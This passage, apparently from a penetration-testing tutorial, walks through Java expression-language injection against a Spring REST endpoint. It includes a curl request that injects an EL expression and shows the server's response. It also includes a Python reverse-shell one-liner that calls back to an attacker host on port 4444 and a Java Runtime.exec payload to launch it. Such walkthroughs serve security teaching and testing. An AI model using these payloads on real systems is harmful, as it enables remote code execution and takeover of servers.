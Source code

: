 </pre>


<p align="justify">
As we see above, we have successfully replaced the letter 'k' with the letter 'x'. Also, in a blackbox testing scenario we should verify that the method <code style="background-color: lightgrey; color:black;">getRuntime()</code> exists because we need to be sure that we can execute commands to the server using the invoked method <code style="background-color: lightgrey; color:black;">exec</code>. In order to verify this we should run the following command
</p>    

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
root@kali:/home/kali# curl -X POST  http://192.168.14.1:8080/books -H "Content-type:application/json" -d "{\"name\":\"Spring REST tutorials\", \"author\":\"\${''.getClass().forName('java.lang.Runtime').getMethods()[6].toString()}\",\"price\":\"9.99\"}"

{
    "timestamp": "2021-11-18T08:19:44.689+0000",
    "status": 400,
    "errors": ["Author <span style="color:#cd0000;"><b>public static java.lang.Runtime java.lang.Runtime.getRuntime()</b></span> is not allowed to be added. Only three authors are allowed"]
}

</pre>

<p align="justify">
At this point we are certain that we can execute commands to the server, so we are moving forward to construct our payload. 
</p>

<p align="justify">
In order to exploit the vulnerability we will use the following python payload 
</p>

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.201.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]); 
```

<p align="justify">
The above payload when executes it opens a shell connection with the attacking machine at port <code style="background-color: lightgrey; color:black;">4444</code>. In order to execute the python payload we are going to use the following java code  
</p>

```java
${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('<PYTHON PAYLOAD HERE>')}
```

<p align="justify">
Furthermore, there are occations when command execution payloads fail to execute when used via the following code  
</p>
